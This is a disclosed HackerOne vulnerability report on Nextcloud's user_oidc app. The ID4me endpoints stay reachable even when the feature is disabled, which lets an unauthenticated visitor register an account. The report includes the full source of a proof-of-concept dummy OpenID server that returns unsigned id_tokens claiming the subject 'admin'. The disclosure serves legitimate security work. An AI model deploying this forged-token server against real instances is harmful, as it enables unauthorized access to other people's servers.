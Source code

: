 # ID4me feature of OpenID connect app available even when disabled 

## Report Details
- **Report ID**: 2376929
- **URL**: https://hackerone.com/reports/2376929
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-02-17T02:39:30.991Z
- **Disclosed**: 2024-05-30T08:31:54.366Z

## Reporter
- **Username**: lukasreschke
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
It is possible to register a new account on any Nextcloud server that has user_oidc enabled by just opening `/apps/user_oidc/id4me` as unauthenticated user. This is especially problematic given apps such as Nextcloud Talk enable accessing instance wide chat rooms.

This is caused since the setting to enable/disable ID4ME has no effect at all except hiding the button on the login site. The controllers are however still accessible.

## Steps To Reproduce:

  1. Install user_oidc
  1. Open http://localhost:8080/apps/user_oidc/id4me
  1. As domain choose `id4me.cloud.wtf` which is a small test server that I've created running the below code
  1. Be logged in as new user on the instance.
 
## Supporting Material/References:

For reference purposes, this is the server running the `id4me.cloud.wtf` ID4Me dummy server:

```js
export default {
  async fetch(request, env, ctx) {
    const { pathname } = new URL(request.url);
    //return new Response("disabled");

    if(pathname == "/.well-known/openid-configuration") {
      return new Response('{"issuer":"https://id4me2.cloud.wtf","authorization_endpoint":"https://id4me2.cloud.wtf/auth","token_endpoint":"https://id4me2.cloud.wtf/token","token_introspection_endpoint":"https://id4me2.cloud.wtf/token/introspect","userinfo_endpoint":"https://id4me2.cloud.wtf/userinfo","end_session_endpoint":"https://id4me2.cloud.wtf/auth/realms/mbo/protocol/openid-connect/logout","jwks_uri":"https://id4me2.cloud.wtf/auth/realms/mbo/protocol/openid-connect/certs","check_session_iframe":"https://id4me2.cloud.wtf/auth/realms/mbo/protocol/openid-connect/login-status-iframe.html","grant_types_supported":["authorization_code","implicit","refresh_token","password","client_credentials"],"response_types_supported":["code","none","id_token","token","id_token token","code id_token","code token","code id_token token"],"subject_types_supported":["public","pairwise"],"id_token_signing_alg_values_supported":["ES384","RS384","HS256","HS512","ES256","RS256","HS384","ES512","RS512"],"userinfo_signing_alg_values_supported":["ES384","RS384","HS256","HS512","ES256","RS256","HS384","ES512","RS512","none"],"request_object_signing_alg_values_supported":["ES384","RS384","ES256","RS256","ES512","RS512","none"],"response_modes_supported":["query","fragment","form_post"],"registration_endpoint":"https://id4me2.cloud.wtf/register","token_endpoint_auth_methods_supported":["private_key_jwt","client_secret_basic","client_secret_post","client_secret_jwt"],"token_endpoint_auth_signing_alg_values_supported":["RS256"],"claims_supported":["sub","iss","auth_time","name","given_name","family_name","preferred_username","email"],"claim_types_supported":["normal"],"claims_parameter_supported":false,"scopes_supported":["openid","profile","roles","phone","offline_access","address","web-origins","email","jpberlin"],"request_parameter_supported":true,"request_uri_parameter_supported":true,"code_challenge_methods_supported":["plain","S256"],"tls_client_certificate_bound_access_tokens":true,"introspection_endpoint":"https://id4me2.cloud.wtf/introspect"}');
    }
    if(pathname == "/register") {
      return new Response('{"client_name": "id4me2.cloud.wtf", "client_id": "id4me2.cloud.wtf", "client_secret": "1234", "client_secret_expires_at": 1921684352, "redirect_uris": ["id4m2.cloud.wtf"], "userinfo_signed_response_alg": ""}');
    }
    if(pathname == "/auth") {
      const { searchParams } = new URL(request.url);
      let redirect_uri = searchParams.get('redirect_uri');
      let state = searchParams.get('state');
      let code = searchParams.get('nonce');

      return Response.redirect(redirect_uri + "?state=" + state + "&code=" + code, 307);
    }
    if(pathname == "/token") {
      let header = btoa(JSON.stringify({  }));
      let payload = btoa(JSON.stringify({ "aud": "id4me2.cloud.wtf", "sub": "admin", "exp": 1771290271 }));

      let fullResponse = JSON.stringify({"id_token": header + "." + payload + ".signature"});
      return new Response(fullResponse);
    }

    return new Response('Hello World!');
  },
};
```

## Impact

It is possible to register a new account on any Nextcloud server that has user_oidc enabled by just opening `/apps/user_oidc/id4me` as unauthenticated user.

## Attachments
No attachments
